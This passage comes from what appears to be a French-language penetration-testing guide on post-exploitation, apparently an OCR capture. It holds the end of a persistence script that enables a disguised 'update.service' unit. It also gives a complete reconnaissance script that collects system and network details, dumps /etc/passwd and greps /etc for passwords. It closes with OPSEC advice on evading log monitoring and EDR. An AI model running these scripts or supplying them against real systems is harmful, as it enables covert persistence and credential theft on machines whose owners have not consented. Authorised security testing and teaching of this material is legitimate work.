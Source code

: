 ```bash
WantedBy=multi-user.target
EOF
    systemctl enable update.service
fi

echo "Persistence mechanisms installed"
```

### Script de Reconnaissance Automatisée
```bash
#!/bin/bash
# Post-Exploitation Reconnaissance

# System information
echo "=== SYSTEM INFO ===" > recon_results.txt
uname -a >> recon_results.txt
cat /etc/os-release >> recon_results.txt
whoami >> recon_results.txt
id >> recon_results.txt

# Network information
echo -e "\n=== NETWORK INFO ===" >> recon_results.txt
ip addr >> recon_results.txt
netstat -tulpn >> recon_results.txt
ss -tulpn >> recon_results.txt

# Users and permissions
echo -e "\n=== USERS INFO ===" >> recon_results.txt
cat /etc/passwd >> recon_results.txt
sudo -l >> recon_results.txt 2>&1

# Look for credentials
echo -e "\n=== POTENTIAL CREDENTIALS ===" >> recon_results.txt
find / -name "*.conf" 2>/dev/null | head -20 >> recon_results.txt
grep -r "password\|pass\|pwd" /etc/ 2>/dev/null | head -10 >> recon_results.txt

echo "Reconnaissance completed. Check recon_results.txt"
```

## ⚠️ Considérations Importantes

### 🚨 OPSEC (Operational Security)
- **Logs monitoring** - Certains logs sont surveillés en temps réel
- **AV/EDR detection** - Outils modernes détectent Mimikatz, Empire
- **Network monitoring** - Trafic inhabituel peut alerter
- **Timeline awareness** - Éviter les actions pendant les heures de bureau

### 🛡️ Limitations et Détection
- **Privilege escalation** peut déclencher des alertes
- **Lateral movement** laisse des traces sur tous les systèmes
- **Data exfiltration** massive est facilement détectable
- **Persistence** peut être découverte lors d'audits de sécurité

---
*Cette section couvre la post-exploitation complète. Les techniques doivent être adaptées selon l'environnement et les objectifs du test d'intrusion.* 